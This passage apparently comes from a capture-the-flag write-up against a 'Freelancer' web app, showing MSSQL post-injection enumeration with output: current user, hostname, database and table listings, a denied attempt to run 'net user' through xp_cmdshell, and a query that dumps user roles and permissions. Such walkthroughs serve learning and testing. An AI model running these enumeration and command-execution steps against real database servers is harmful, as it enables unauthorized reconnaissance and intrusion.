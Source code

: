 [PayloadsAllTheThings: MSSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

```sql
> SELECT user; -- Get User
Freelancer_webapp_user
> SELECT HOST_NAME(); -- Get Hostname
DC
> SELECT name FROM master..sysdatabases; -- Get Databases
master
tempdb
model
msdb
Freelancer_webapp_DB
> SELECT name FROM Freelancer_webapp_DB..sysobjects WHERE xtype = 'U';
django_migrations
freelancer_customuser
freelancer_article
freelancer_job
freelancer_otptoken
freelancer_employer
freelancer_freelancer
freelancer_comment
freelancer_job_request
django_content_type
django_admin_log
auth_permission
auth_group
auth_group_permissions
django_session
> SELECT name FROM msdb..sysobjects WHERE xtype = 'U';
dm_hadr_automatic_seeding_history
backupmediaset
backupmediafamily
backupset
backupfile
restorehistory
restorefile
restorefilegroup
logmarkhistory
suspect_pages
> EXEC master.dbo.xp_cmdshell "net user";
('42000', "[42000] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'. (229) (SQLExecDirectW)")
```

MSSQL can execute shell commands, but looks like we don't have permissions to do so. Database didn't have anything more interesting then this. 

Get users and permissions:
```sql
SELECT 
    u.name AS user_name,
    r.name AS role_name,
    p.permission_name,
    p.state_desc AS permission_state,
    o.type_desc AS object_type,
    o.name AS object_name
FROM 
    sys.database_principals u
LEFT JOIN 
    sys.database_role_members rm ON u.principal_id = rm.member_principal_id
LEFT JOIN 
    sys.database_principals r ON rm.role_principal_id = r.principal_id
```